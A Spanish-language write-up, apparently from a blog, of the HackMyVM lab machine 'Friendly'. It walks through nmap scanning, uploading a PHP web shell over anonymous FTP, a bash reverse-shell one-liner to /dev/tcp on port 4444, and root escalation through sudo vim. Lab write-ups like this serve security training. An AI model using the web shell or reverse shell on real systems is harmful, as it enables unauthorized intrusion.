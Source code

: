 ```yaml
---
title: 'Friendly'
date: 2024-01-28T12:47:48-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'ftp', 'Anonymous user', 'sudo', 'vim']
---
```


![Friendly](/assets/img/hmvm/friendly/friendly.png)

|Nombre|VM Info|
|---|---|
|**Sistema operativo**|Linux|
|**Dificultad**|Fácil|
|**Fecha de lanzamiento**|2023-03-24|
|**Máquina**|[Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly)|
|**Creador**|[RiJaba1](https://rijaba1.github.io/)|
|**Plataforma**|[HackMyVM](https://hackmyvm.eu/)|

# Introducción
En este artículo, abordaremos la resolución de la máquina [Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly) de la plataforma HackMyVM. La máquina presenta un servicio FTP, al cual accedemos utilizando el usuario `anonymous`, que cuenta con la capacidad de cargar archivos en el servidor. Aprovechando esta funcionalidad, conseguimos cargar un archivo con extensión `.php` y logramos que sea interpretado por el servidor web Apache que se encuentra en ejecución en el puerto 80. De esta manera, logramos obtener acceso al sistema al ejecutar una reverse shell. Para culminar, explotamos una configuración inadecuada de `sudo` para elevar nuestros privilegios, logrando así una exitosa escalada de privilegios.

# Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Friendly](/assets/img/hmvm/friendly/friendly-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envio de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 10.10.10.15 -oG scanPorts -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-2.png)
_Descubrimiento de puertos abiertos_

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Solo considerar puertos abiertos.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 10.10.10.15 -oN targeted -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-3.png)
_Descubrimiento de versión y servicio con nmap_

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
`

## Explotación

### FTP - `Anonymous`

Como observamos en el escaneo anterior, el servicio `ftp` permite acceder con el usuario `anonymous`. En este caso, debemos ingresar como contraseña `anonymous@10.10.10.15`.
Al listar el contenido, nos encontramos con un archivo `index.html` el cual nos descargamos para ver su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-4.png)
_FTP - Descarga de index.html_

Si miramos el contenido del fichero `index.html`, vemos que se corresponde con el tipico archivo de una instancia de Apache.

![Friendly](/assets/img/hmvm/friendly/friendly-5.png)
_Fichero index.html_

Al ingresar al sitio web que esta corriendo bajo el puerto 80, nos encontramos con la página por defecto de una instancia de Apache, lo cual nos hace pensar que es el mismo archivo que nos descargamos.
En otras palabras, tenemos acceso al servidor web por medio de ftp.

![Friendly](/assets/img/hmvm/friendly/friendly-6.png)
_Web por defecto Apache_

Intentos subir un archivo con extensión `.php` para ver si el servidor interpreta este lenguaje.

```php
<?php
# shell.php
system($_GET['cmd']);
```

![Friendly](/assets/img/hmvm/friendly/friendly-7.png)
_Subida de fichero shell.php_

Si accedemos desde el navegador al archivo `shell.php`, vemos que efectivamente se esta interprentado el código `php`, lo que nos concede la capacidad de ejecutar comandos..

![Friendly](/assets/img/hmvm/friendly/friendly-8.png)
_POC shell.php_

### Reverse shell - `www-data`

Conociendo que tenemos capacidad de ejecución de comandos, ganemos acceso al sistema a través de una reverse shell.

En primer lugar, nos ponemos en escucha con netcat `nc` por el puerto `4444`.

![Friendly](/assets/img/hmvm/friendly/friendly-9.png)
_nc_

Ejecutamos la reverse shell.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.10.5/4444 0>%261'
```

![Friendly](/assets/img/hmvm/friendly/friendly-10.png)
_Reverse Shell_

De esta forma, ganamos acceso al sistema.

![Friendly](/assets/img/hmvm/friendly/friendly-11.png)
_nc_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y ya podemos leer el flag de `user.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-12.png)
_user.txt_

## Escalación de privilegios

### Enumeración del sistema

Luego de realizar una enumeración básica del sistema, vemos que el usuario `RiJaba1` puede ejecutar con `sudo` y sin solicitar contraseña el binario `vim`.

Si hacemos una búsqueda en GTFOBins, podemos ver que existen varias alternativas de poder escalar nuestros privilegios en este contexto [GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/#sudo), en este caso, usare la primera de ellas.

![Friendly](/assets/img/hmvm/friendly/friendly-13.png)
_sudo -l_

![Friendly](/assets/img/hmvm/friendly/friendly-14.png)
_GTFOBins - vim_

De esta manera, escalamos nuestros privilegios.

![Friendly](/assets/img/hmvm/friendly/friendly-15.png)
_Shell como root_

Pero aún no encontramos el flag de `root`, ya que como indica el mensaje debemos buscar otro archivo `root.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-16.png)
_root.txt_

Para lo cual, podemos hacer uso del comando `find`.

```bash
find / -name root.txt 2>/dev/null
```

Una vez que encontramos el archivo, podemos leer su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-17.png)
_root.txt_

De esta forma, llegamos al final del Write-up de la máquina Friendly.

Como siempre, espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!

